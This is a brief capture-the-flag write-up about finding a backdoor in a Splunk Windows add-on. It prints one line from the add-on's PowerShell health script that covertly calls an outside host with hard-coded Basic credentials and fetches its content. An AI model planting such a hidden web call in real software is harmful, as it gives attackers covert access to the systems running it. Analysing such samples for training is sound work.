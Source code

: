 # Backdoored Splunk
## You've probably seen Splunk being used for good, but have you seen it used for evil?

A website is accessible and a file is included with the challenge.

---

Browsing the website we are immediatly stopped with a "Missing authorization header". 

![Alt text](image.png)


When searching on the file I could find a base64 String that looks like our missing authorization header.

`$ grep -r "Authorization" Splunk_TA_windows/`

`Splunk_TA_windows/bin/powershell/nt6-health.ps1:$OS = @($html = (Invoke-WebRequest http://chal.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content`


Decoding the Base64 gives us the flag